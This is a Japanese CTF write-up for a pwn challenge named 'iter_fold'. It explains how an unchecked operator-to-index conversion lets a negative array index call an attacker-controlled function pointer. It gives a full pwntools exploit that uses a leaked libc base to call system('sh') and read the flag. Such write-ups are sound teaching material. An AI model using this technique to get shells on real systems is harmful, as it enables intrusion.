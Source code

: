 # iter_fold writeup

## 問題文

```txt
トゥットゥルー♪まゆしぃ☆です。

`nc 203.0.113.0 4004`
```

## about

Rustの`iter().fold()`の様な挙動を再現するプログラムです．

関数ポインタ経由の呼び出しと，C言語における配列のインデックスアクセスが糖衣構文である事を利用します．

また，libcのベースアドレスが提示されているので活用します．

## writeup

```c
typedef long (*operation)(long*, long);

struct Fold {
    long array[5];
    operation ops[6];
};
```

こんな構造体があり，

```c
long fold(long* array, long* init, operation op) {
    for (int i = 0; i < 5; i++)
        op(init, array[i])

    return *init;
}
```

に渡される．

`main`では,

```c
struct Fold f = {
    .array = {0, 0, 0, 0, 0},
    .ops[0] = multiplication,
    .ops[1] = add,
    .ops[3] = sub,
    .ops[5] = division,
};
```

の様に変数が宣言されています，`add`や`sub`は名前に準じた操作を行う関数です．

`f.array`の各要素を`scanf("%ld", &f.array[i])`で読み込んだ後，初期値，演算子を読んでいます．

しかし，演算子の扱いが問題です．

```c
scanf("%c", &op);
```

で`op`に読んだ後，

```c
fold(f.array, &init, f.ops[op_to_index(op)]);
```

の様な呼び出しをしています．

`op_to_index`はシンプルで，

```c
int op_to_index(char op) {
    return op - '*';
}
```

これは，想定されている演算子`('+', '-', '*', '/')`の中では正常に機能しますが，それ以外の文字が入力された場合に脆弱です．

C言語において，配列への添字によるアクセスは糖衣構文です．

```c
ops[i] == *(ops + i)
```

つまり，添字の値が負であった場合も動作します．

ここで，メモリ上の`Fold`の配置を確認すると

```c
f.array[4] == f.ops[-1]
```

である事がわかります．

`f.array[4]`に任意のアドレスを入れれば，それを呼び出せる訳です．

```python3
from pwn import *

binfile = '../distfiles/chall'
e = ELF(binfile)
context.binary = binfile
libc = ELF('../distfiles/libc-2.27.so')

io = remote('203.0.113.0', 4004)

system_offset = libc.sym['system']
sh_byte = 0x6873

# 0x7f3965438000 < トゥットゥルー♪ libcです☆
libc_base_addr = int(io.recvline().split()[0], 16)

system_addr = libc_base_addr + system_offset

array = [0] * 4 + [system_addr]

for i in array:
    # array[{{index}}] =
    io.sendlineafter('=', str(i))

# init =
io.sendlineafter('=', str(sh_byte))

# operator please(+,-,*,/)
io.readline()

# op = '*' - 1
io.sendline(chr(ord('*') - 1))

# vec![{{array}}].iter().fold({{init}}, |ans, &x| ans {{op}} x);
io.readline()

io.sendline('cat flag.txt')
print(io.readline().decode())
```

## flag

`ISCCTF{m4g1c4l_p0w3rfull_libc_offset}`
